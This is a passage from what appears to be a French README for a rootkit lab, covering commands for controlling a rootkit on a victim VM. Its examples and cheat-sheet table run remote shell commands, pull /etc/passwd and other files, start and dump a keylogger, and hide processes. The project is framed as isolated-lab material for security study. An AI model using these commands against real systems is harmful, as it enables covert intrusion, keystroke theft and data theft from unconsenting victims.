     - Récupérer des fichiers
     - Activer le keylogger
     - Utiliser toute autre fonctionnalité exposée par le rootkit
   - Les commandes disponibles sont détaillées dans le code source de client.py et la documentation technique.

## Exemples de commandes

- Exécution d'une commande sur la victime :
  ```bash
  python3 client.py <IP_VICTIME> --exec 'ls /root'
  ```
- Récupération d'un fichier :
  ```bash
  python3 client.py <IP_VICTIME> --get /etc/passwd
  ```

## Bonnes pratiques

- Utilisez la VM attaquante pour des tests réalistes, l'automatisation ou l'intégration d'outils d'attaque (nmap, metasploit, etc.).
- Ne jamais utiliser ce dispositif en dehors d'un environnement isolé et contrôlé.

---

# Cheat Sheet — Commandes Rootkit via la VM Attaquante

Voici un récapitulatif rapide des commandes principales utilisables depuis la VM attaquante pour exploiter le rootkit :

| Action                                 | Commande                                                                 |
|----------------------------------------|--------------------------------------------------------------------------|
| Se connecter au rootkit                | `python3 client.py <IP_VICTIME>`                                         |
| Exécuter une commande sur la victime   | `python3 client.py <IP_VICTIME> --exec 'commande_shell'`                  |
| Récupérer un fichier                   | `python3 client.py <IP_VICTIME> --get /chemin/vers/fichier`               |
| Activer le keylogger                   | `python3 client.py <IP_VICTIME> --keylog start`                           |
| Récupérer les logs du keylogger        | `python3 client.py <IP_VICTIME> --keylog dump`                            |
| Arrêter le keylogger                   | `python3 client.py <IP_VICTIME> --keylog stop`                            |
| Lister les processus                   | `python3 client.py <IP_VICTIME> --ps`                                     |
| Masquer un processus                   | `python3 client.py <IP_VICTIME> --hide-process <PID>`                     |
| Afficher l'aide du client              | `python3 client.py --help`                                                |

Remarques :
- Remplacez <IP_VICTIME> par l'adresse IP de la VM victime.
- Les options exactes peuvent varier selon l'implémentation de client.py.
- Pour des usages avancés, consultez le code source ou la documentation technique.

---